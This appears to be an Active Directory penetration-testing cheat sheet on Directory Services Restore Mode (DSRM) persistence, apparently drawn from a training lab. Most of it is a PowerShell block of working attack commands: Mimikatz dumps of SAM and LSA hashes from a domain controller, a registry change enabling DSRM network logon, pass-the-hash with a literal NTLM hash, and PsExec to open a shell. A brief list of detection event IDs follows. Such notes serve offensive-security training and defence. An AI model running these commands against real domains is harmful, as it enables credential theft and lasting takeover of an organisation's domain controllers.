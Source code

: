 # DSRM

## General

- DSRM is Directory Services Restore Mode
- There is a local administrator on every DC called "Administrator" whose password is the DSRM password
- DSRM password (SafeModePassword) is required when a server is promoted to a DC and it is rarely changed
- After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC

## Exploitation

```powershell
# Dump DSRM password (needs DA privs)
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc

# Compare the Administrator hash with the Administrator hash of below command
# The first on is the DSRM local Administrator
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc

# Need to change Logon Behavior for DSRM account before we can pass the hash to login
Enter-PSSession -ComputerName dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# Pass the hash to login
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

# Check if we can access the DC
ls \\dcorp-dc\c$

# Get shell
.\PsExec.exe -accepteula \\dcorp-dc cmd.exe
```

## Detection

- Event IDs:
  - 4657: Audit creation/change of HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ DsrmAdminLogonBehavior
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon
